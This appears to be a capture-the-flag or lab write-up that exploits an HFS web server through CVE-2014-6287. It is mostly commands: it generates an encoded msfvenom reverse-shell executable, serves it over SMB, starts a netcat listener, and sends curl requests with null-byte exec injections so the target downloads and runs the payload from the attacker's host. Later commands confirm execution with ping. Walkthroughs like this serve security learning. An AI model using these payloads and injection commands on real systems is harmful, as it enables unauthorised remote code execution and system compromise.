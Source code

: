 
There are a few interesting exploits mentioning HFS. Looking at both exploits 39161 and 34668, they reference the same [CVE-2014-6287](https://nvd.nist.gov/vuln/detail/CVE-2014-6287). Exploit 34668 explains that a request to `http://localhost:80/?search=%00{.exec|cmd.}` will spawn `cmd.exe` due to how the application fails to handle a NULL byte. Use this to attempt a reverse shell:

```bash
# generate a new payload
msfvenom -p windows/shell_reverse_tcp \
         LHOST=10.10.14.25 \
         LPORT=6969 \
         -a x86 --platform windows \
         -e x86/shikata_ga_nai \
         -f exe \
         -o bubba.exe
# host payload
sudo impacket-smbserver BUBBA .
# start a listener 
nc -nvlp 6969
# url encode payload
PAYLOAD='cmd /c \\\\10.10.14.25\\BUBBA\\bubba.exe'
PAYLOAD_ENC=$(python3 -c "import urllib.parse;print(urllib.parse.quote('$PAYLOAD'))")
# send command to download & execute payload
curl -X GET -s -v "http://10.10.10.8/?search=%00\{.exec|$PAYLOAD_ENC.\}" 
```

But this does not result in a download? Check payload with a ping:

```bash
# start a listener 
sudo tcpdump -i tun0 icmp
# url encode payload
PAYLOAD='ping 10.10.14.25'
PAYLOAD_ENC=$(python3 -c "import urllib.parse;print(urllib.parse.quote('$PAYLOAD'))")
# send command to download & execute payload
curl -X GET -s -v "http://10.10.10.8/?search=%00\{.exec|$PAYLOAD_ENC.\}" 
```

But this also does not work? Maybe it is a path thing?

```bash
# url encode payload
PAYLOAD='c:\\windows\\system32\\ping.exe 10.10.14.25'
PAYLOAD_ENC=$(python3 -c "import urllib.parse;print(urllib.parse.quote('$PAYLOAD'))")
# send command to download & execute payload
curl -X GET -s -v "http://10.10.10.8/?search=%00\{.exec|$PAYLOAD_ENC.\}" 
```

And this works!
